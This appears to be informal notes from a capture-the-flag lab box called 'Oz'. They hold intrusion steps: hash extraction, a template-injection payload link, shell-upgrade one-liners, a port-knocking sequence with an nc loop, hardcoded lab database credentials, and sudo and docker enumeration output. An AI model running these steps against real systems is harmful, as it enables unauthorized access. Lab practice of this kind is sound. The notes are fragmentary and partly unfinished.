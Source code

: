 ```
cat users.hashes |awk -F, '{print $4}' or 2 or 3 depends
```

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections

testing for whats working on the back end

wizardofoz22

python -c 'import pty;pty.spawn("/bin/bash")'

python -c 'import pty;pty.spawn("/bin/sh")'

crtl+z , then type stty raw-echo, crtl+z then type reset

cat knockd.conf
[options]
        logfile = /var/log/knockd.log

[opencloseSSH]

        sequence        = 40809:udp,50212:udp,46969:udp
        seq_timeout     = 15
        start_command   = ufw allow from %IP% to any port 22
        cmd_timeout     = 10
        stop_command    = ufw delete allow from %IP% to any port 22
        tcpflags        = syn
for i in 40809 50212 46969; do nc -zu oz.htb $i ;done

inside tickerter database.py hardcoded creds

dorthi:N0Pl4c3L1keH0me@10.100.10.4/ozdb

mysql -u dorthi -p -h 10.100.10.4

ssh 

openssl rsa -in dorthi_key -out dorthi.ssh

some how all of that comes together to give produce ssh connection. first i believe ssh is open but only response to a tcp connection. so when you knock these three ports in a row it will open up a ssh conneciton for 10 seconds then close it. the for loop run through the three port variables and 

### sudo -l

Matching Defaults entries for dorthi on Oz:
    env_reset, mail_badpass,
    N0Pl4c3L1keH0me

secure_path=/usr/local/sbin/:/usr/local/bin/:/usr/sbin/:/usr/bin/:/sbin/:/bin/:/snap/bin

User dorthi may run the following commands on Oz:
    (ALL) NOPASSWD: /usr/bin/docker network inspect *
    (ALL) NOPASSWD: /usr/bin/docker network ls

sudo docker network ls

sudo docker network ls
NETWORK ID          NAME                DRIVER              SCOPE
4e64c670965c        bridge              bridge              local
49c1b0c16723        host                host                local
3ccc2aa17acf        none                null                local
48148eb6a512        prodnet             bridge              local
